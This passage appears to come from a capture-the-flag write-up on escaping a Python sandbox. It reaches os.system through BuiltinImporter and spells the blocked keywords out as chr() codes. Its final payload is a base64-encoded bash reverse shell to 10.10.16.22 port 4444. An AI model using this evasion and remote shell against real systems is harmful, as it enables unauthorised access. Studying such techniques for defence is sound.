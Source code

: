 
We list all classes that inherit from `object`
```python
for cls in [].__class__.__base__.__subclasses__():
    print(cls, end = "  ") 
```  

Among these classes, we find the `BuiltinImporter` class :

![Code ](/assets/img/posts/code/builtin.png)
_BuiltinImporter class_

Basically, `BuiltinImporter` is responsible for finding and loading built-in modules.  

> **Note:** Import Steps for os module :
> 1. Checks BuiltinImporter (not found)
> 2. Checks sys.path via PathFinder
> 3. Finds os.py in standard library
> 4. During execution, os.py imports from built-in posix module


We'll simply bypass the constraint by obfuscating the restricted keywords, by dynamically constructing them, by  concatenating the character translation of their numerical ASCII code : 

```python
for cls in [].__class__.__base__.__subclasses__():
  if cls.__name__ == ''.join([chr(x) for x in [66, 117, 105, 108, 116, 105, 110, 73, 109, 112, 111, 114, 116, 101, 114]]):
  mod = cls().load_module(''.join(chr(x) for x in [111, 115]))  
  getattr(mod, ''.join(chr(x) for x in [115, 121, 115, 116, 101, 109]))('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMi80NDQ0IDA+JjE= | base64 -d | bash')
```        
So we'll load the `os` module, and then we use `getattr()` to access `system` method, to execute arbitrary commands.  
